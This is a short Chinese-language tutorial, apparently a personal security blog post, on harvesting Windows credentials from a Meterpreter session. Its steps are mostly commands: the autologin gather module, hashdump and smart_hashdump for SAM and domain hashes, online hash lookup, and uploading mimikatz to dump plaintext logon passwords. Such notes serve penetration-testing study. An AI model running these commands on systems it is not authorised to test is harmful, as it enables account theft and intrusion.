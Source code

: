 ```yaml
---
title: 使用MSF抓取用户密码
abbrlink: b034a3f3
date: 2024-10-23 21:00:00
tags: ['安全'，'Linux']
---
```


## 抓取自动登录的密码
很多用户习惯将计算机设置自动登录
可以使用
~~~bash
run windows/gather/credentials/windows_autologin
~~~
抓取自动登录的用户名和密码

## 导出密码哈希
### run hashdump 命令
> `hashdump` 模块可以从 `SAM数据库` 中导出本地用户账号，该命令的使用需要系统权限

- 在 `meterpreter_shell` 中执行 `run hashdump` 命令
~~~bash
run hashdump
~~~

- 用户哈希数据的输出格式为
~~~bash
用户名:SID:LM哈希:NTLM哈希:::
~~~

- 使用在线网站解密hash密码
[CMD5](https://www.cmd5.com/default.aspx)

- `run windows/gather/smart_hashdump` 命令
> 使用需要系统权限。该功能更强大
> 如果当前用户是域管理员用户
> 则可以导出域内所有用户的 hash

## 使用 mimikatx 抓取密码
### 上传 mimikatz 程序
我们可以通过上传 `mimikatz` 程序
然后执行 `mimikatz` 程序来`获取明文密码`

- 前提
执行 `mimikatz` 必须 `System` 权限
并且在执行时，要根据当前的系统位数进行选择

- 使用方法
1. 在 `meterpreter_shell` 的命令行里面查看当前会话的权限
~~~bash
getuid
~~~

2. 查看系统位数
~~~bash
sysinfo
~~~

3. 选择相应位数的 `mimikatz` 上传至目标服务器
~~~bash
upload file  #upload命令后面需要跟上要上传文件的路径；这个命令是从当前机器上传到目标机器；
~~~

4. 进入 `mimikatz` 的交互界面
~~~bash
execute -i -f mimikatz.exe
~~~

5. 在 `mimikatz` 交互界面，使用以下两条命令抓取密码
~~~bash
privilege::debug
sekurlsa::logonpasswords
~~~
